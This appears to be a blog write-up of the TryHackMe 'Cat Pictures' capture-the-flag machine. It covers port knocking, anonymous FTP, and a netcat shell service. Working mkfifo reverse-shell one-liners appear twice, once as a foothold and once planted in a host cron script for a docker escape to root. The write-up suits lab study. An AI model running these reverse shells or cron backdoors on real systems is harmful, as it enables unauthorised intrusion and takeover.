 ```yaml
---
title : "Cat Pictures - Write Up"
date : 2021-07-03T16:56:05+02:00
author : "Lanfran02"
cover : "cover.jpeg"
useRelativeCover : true
description : "TryHackMe's easy level machine."
tags : ["nc","strings","knock","docker","TryHackMe"]
---
```


| Link | Level | Creator |
|------|-------|---------|
| [Here](https://tryhackme.com/room/catpictures)  | Easy  |  [gamercat](https://tryhackme.com/p/gamercat)  |

## Reconn

Using `nmap` we detect 3 ports `21 running FTP "filtered", 21 running SSH "open", 8080 running a web.`
```bash
└──╼ $map 10.10.51.194
[sudo] password for lanfran: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-07 16:21 CEST
Nmap scan report for 10.10.51.194
Host is up (0.088s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE    VERSION
21/tcp   filtered ftp
22/tcp   open     ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
|_  256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
8080/tcp filtered http-proxy
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.65 seconds
```
Searching in the 8080 port, we find a post, saying: `Knock knock! Magic numbers: 1111, 2222, 3333, 4444`

So we knock on that ports [Maybe you need to run the command 2-3 times to work :)]

`knock 10.10.51.194 1111 2222 3333 4444`

Running `nmap` again, we can see that now the FTP port it's open, and accepts the Anonymous user!

```bash
└──╼ $map 10.10.153.159
[sudo] password for lanfran: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-07 17:04 CEST
Nmap scan report for 10.10.153.159
Host is up (0.16s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp           162 Apr 02 14:32 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.3.250
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
|_  256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
8080/tcp open  http    Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
|_http-title: Cat Pictures - Index page
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.13 seconds
```
So let's login to the FTP and see what's inside.

```bash
╰─ lanfran@parrot ❯ ftp 10.10.51.194                                                                                               ─╯
Connected to 10.10.51.194.
220 (vsFTPd 3.0.3)
Name (10.10.51.194:lanfran): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Apr 02 14:32 .
drwxr-xr-x    2 ftp      ftp          4096 Apr 02 14:32 ..
-rw-r--r--    1 ftp      ftp           162 Apr 02 14:32 note.txt
226 Directory send OK.
ftp> get note.txt
local: note.txt remote: note.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note.txt (162 bytes).
226 Transfer complete.
162 bytes received in 0.00 secs (53.0171 kB/s)
ftp> 
```

Reading the note, we get a new port, and the username:passord to login!

## Foothold - Flag 1

Unluckily it's not the SSH port, it's an "internal shell service"...

Let's use `netcat` to login

```bash
╰─ lanfran@parrot ❯ nc 10.10.51.194 4420                                                                                           ─╯
INTERNAL SHELL SERVICE
please note: cd commands do not work at the moment, the developers are fixing it at the moment.
do not use ctrl-c
Please enter password:
sardinethecat
Password accepted
ls -la
total 56
drwxr-xr-x 10 1001 1001 4096 Apr  3 01:30 .
drwxr-xr-x 10 1001 1001 4096 Apr  3 01:30 ..
-rw-------  1 1001 1001   50 Apr  1 20:23 .bash_history
-rw-r--r--  1 1001 1001  220 Apr  1 20:21 .bash_logout
-rw-r--r--  1 1001 1001 3771 Apr  1 20:21 .bashrc
-rw-r--r--  1 1001 1001  807 Apr  1 20:21 .profile
drwxrwxr-x  2 1001 1001 4096 Apr  2 23:05 bin
drwxr-xr-x  2    0    0 4096 Apr  1 20:32 etc
drwxr-xr-x  3    0    0 4096 Apr  2 20:51 home
drwxr-xr-x  3    0    0 4096 Apr  2 22:53 lib
drwxr-xr-x  2    0    0 4096 Apr  1 20:28 lib64
drwxr-xr-x  2    0    0 4096 Apr  2 20:56 opt
drwxr-xr-x  2    0    0 4096 Apr  3 01:35 tmp
drwxr-xr-x  4    0    0 4096 Apr  2 22:43 usr
```
We now have to get a reverse shell, I usde the mkfifo shell, you can use other one!
I recommend you to use [revshells.com](https://revshells.com) to generate the commands for reverse shells. It's created and mantained by the CTF's community!

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.6.21 1337 >/tmp/f`

![Foothold](foothold.png)

Going through the directories, we find a binary in `/home/catlover` named "runme". I downloaded it to my local machine, and used `strings` to get the password.

```bash
╰─ lanfran@parrot ❯ strings runme                                                                                                  ─╯
/lib64/ld-linux-x86-64.so.2
[...]
r[REDACTED]a
Please enter yout password: 
Welcome, catlover! SSH key transfer queued! 
touch /tmp/gibmethesshkey
Access Denied
[...]
```
Great! We can now run the binary in the machine, and input the password!

```bash
# ./runme
Please enter yout password: [REDACTED]
Welcome, catlover! SSH key transfer queued!
# ls -la
total 32
drwxr-xr-x 2 0 0  4096 Jul  4 11:17 .
drwxr-xr-x 3 0 0  4096 Apr  2 20:51 ..
-rw-r--r-- 1 0 0  1675 Jul  4 11:17 id_rsa
-rwxr-xr-x 1 0 0 18856 Apr  3 01:35 runme
```
I copied the id_rsa file to my local machine, and used it to SSH in.

```bash
╰─ lanfran@parrot ❯ ssh catlover@10.10.51.194 -i id_rsa                                                                            ─╯
[...]
root@7546fa2336d6:/# cd /root
root@7546fa2336d6:/root# ls -la
total 24
drwx------ 1 root root 4096 Mar 25 16:28 .
drwxr-xr-x 1 root root 4096 Mar 25 16:18 ..
-rw-r--r-- 1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x 3 root root 4096 Mar 25 16:26 .local
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw-r--r-- 1 root root   41 Mar 25 16:28 flag.txt
root@7546fa2336d6:/root# cat flag.txt 
7[REDACTED]9
```
## Flag 2 - Root

Great, we have the first flag!

We are now the root user of a docker container, so we need to escalate to the root user of the host.

Going through the files and reading the crontab, we find a cron script running inside the host machine! 

Add a reverse shell to it, and get a root rev shell to the host!!!

```bash
root@7546fa2336d6:/root# cat /opt/clean/clean.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.6.21 9999 >/tmp/f
```
After some seconds, we get a rev shell!

Get the Flag 2.
```bash
╰─ lanfran@parrot ❯ nc -nlvp 9999                                                                                                  ─╯
listening on [any] 9999 ...
connect to [10.9.6.21] from (UNKNOWN) [10.10.51.194] 57996
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# cat /root/root.txt
Congrats!!!
Here is your flag:

[REDACTED]
```

And we rooted the machine!

That's all from my side, hope you find this helpful!